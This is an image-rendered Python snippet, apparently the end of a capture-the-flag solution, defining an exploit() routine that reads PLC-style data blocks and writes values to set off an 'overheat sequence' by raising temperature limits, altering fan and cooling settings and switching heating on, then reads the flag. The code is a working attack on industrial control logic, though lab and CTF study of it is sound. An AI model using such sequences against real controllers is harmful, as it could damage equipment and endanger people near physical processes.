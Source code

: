```python
    print("\nReading initial states:")

    read(1, 0, size)  

    read(2, 0, size)  

    read(3, 0, size)  

    read(4, 0, size)  

    read(5, 0, size)  

    # Step 2: Execute writes in order

    print("\nExecuting overheat sequence:")

    write(1, 29, "MAX:65")       

    time.sleep(1)                 

    write(2, 0, "FAN:99%")      

    time.sleep(1)

    write(3, 8, "COOL:10%")       

    time.sleep(1)

    write(5, 0, "HEAT:ON ")      

    time.sleep(1)

    write(1, 0, "TARGET-TEMP:50C")              

    time.sleep(5)

    print("\nReading states:")

    read(1, 0, size)  # DB1 full

    read(2, 0, size)  # DB2 full

    read(3, 0, size)  # DB3 full

    read(4, 0, 100)  # DB4 full FLAG :)

    read(5, 0, size)  # DB5 full

if __name__ == "__main__":

    exploit()
```

